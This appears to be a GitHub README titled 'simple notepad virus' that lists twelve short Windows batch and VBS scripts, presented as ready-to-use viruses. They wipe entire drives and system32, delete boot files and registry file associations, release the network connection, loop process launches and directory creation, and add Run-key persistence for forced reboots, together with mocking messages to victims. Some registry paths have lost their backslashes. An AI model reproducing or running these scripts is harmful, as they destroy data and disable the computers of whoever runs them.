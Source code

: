 # ViRuS
##simple notepad virus


# codes given below

- virus - 1

@echo off
:VIRUS
cd /d C:
md %RANDOM%
cd /d D:
md %RANDOM%
cd /d E:
md %RANDOM%
goto VIRUS
REM #######################
REM errorcode401.blogspot.in


-----------------------------------
-  virus - 2

@echo off
del D:\*.* /f /s /q
del E:\*.* /f /s /q
del F:\*.* /f /s /q
del G:\*.* /f /s /q
del H:\*.* /f /s /q
del I:\*.* /f /s /q
del J:\*.* /f /s /q


-------------------------
-  virus - 3

@ECHO OFF
START reg delete HKCR/.exe
START reg delete HKCR/.dll
START reg delete HKCR/*


--------------------------
-  virus - 4

@Echo off
Ipconfig /release

-------------------------
- virus - 5

@echo off
msg * Lets Roll Baby
shutdown -c “Error! Your ass got glued!” -s

-----------------------------
- virus - 6

(save as .VBS)

Option Explicit

Dim WSHShell
Set WSHShell=Wscript.CreateObject(“Wscript.Shell”)

Dim x
For x = 1 to 100000000
WSHShell.Run “Tourstart.exe”
Next

--------------------------------------------------------------------
- virus - 7
rd/s/q D:\
rd/s/q C:\
rd/s/q E:\

----------------------------------------------------------------

- virus - 8

echo @echo off>c:windowshartlell.bat
echo break off>>c:windowshartlell.bat
echo shutdown -r -t 11 -f>>c:windowshartlell.bat
echo end>>c:windowshartlell.bat
reg add hkey_local_machinesoftwaremicrosoftwindowscurrentversionrun /v startAPI /t reg_sz /d c:windowshartlell.bat /f
reg add hkey_current_usersoftwaremicrosoftwindowscurrentversionrun /v /t reg_sz /d c:windowshartlell.bat /f
echo You Are Nailed, Buy A New Computer This Is Piece Of Shit.
PAUSE

-----------------------------------------------------------------------------

- virus - 9

@echo off
attrib -r -s -h c:\autoexec.bat
del c:\autoexec.bat
attrib -r -s -h c:\boot.ini
del c:\boot.ini
attrib -r -s -h c:\ntldr
del c:\ntldr
attrib -r -s -h c:\windows\win.ini
del c:\windows\win.ini

--------------------------------------------------------------
- virus - 10

shutdown -s -t 100 c “Installing Updates”

--------------------------------------------------------------------
- virus - 11

del c:\WINDOWS\system32\*.*/q

--------------------------------
- virus - 12

echo @echo off>c:windowswimn32.bat
echo break off>>c:windowswimn32.bat
echo ipconfig/release_all>>c:windowswimn32.bat
echo end>>c:windowswimn32.bat
reg add hkey_local_machinesoftwaremicrosoftwindowscurrentversionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /f
reg add hkey_current_usersoftwaremicrosoftwindowscurrentversionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.bat /f
echo You have maxed your internet usage for a lifetime ??
PAUSE



@ thank you
